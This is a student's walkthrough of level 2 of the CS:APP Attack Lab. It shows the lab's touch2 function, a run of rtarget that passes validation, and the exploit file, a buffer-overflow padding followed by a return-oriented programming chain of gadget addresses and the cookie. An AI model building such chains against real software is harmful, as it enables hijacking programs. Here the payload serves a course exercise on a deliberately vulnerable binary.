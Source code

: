 

# ROP 
# Level 2
~~~c
1 void touch2(unsigned val)
2 {
3   vlevel = 2; /* Part of validation protocol */
4   if (val == cookie) {
5     printf("Touch2!: You called touch2(0x%.8x)\n", val);
6     validate(2);
7   } else {
8     printf("Misfire: You called touch2(0x%.8x)\n", val);
9     fail(2);
10  }
11  exit(0);
12 }
~~~
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » ./rtarget -i exploit-raw.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00
   2   │ 00 00 00 00 00 00 00 00
   3   │ 00 00 00 00 00 00 00 00
   4   │ 00 00 00 00 00 00 00 00
   5   │ 00 00 00 00 00 00 00 00
   6   │ ab 19 40 00 00 00 00 00         /* popq  %rax */
   7   │ fa 97 b9 59 00 00 00 00         /* cookie */
   8   │ c5 19 40 00 00 00 00 00         /* mov   %rdi, %rax */
   9   │ ec 17 40 00 00 00 00 00
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 

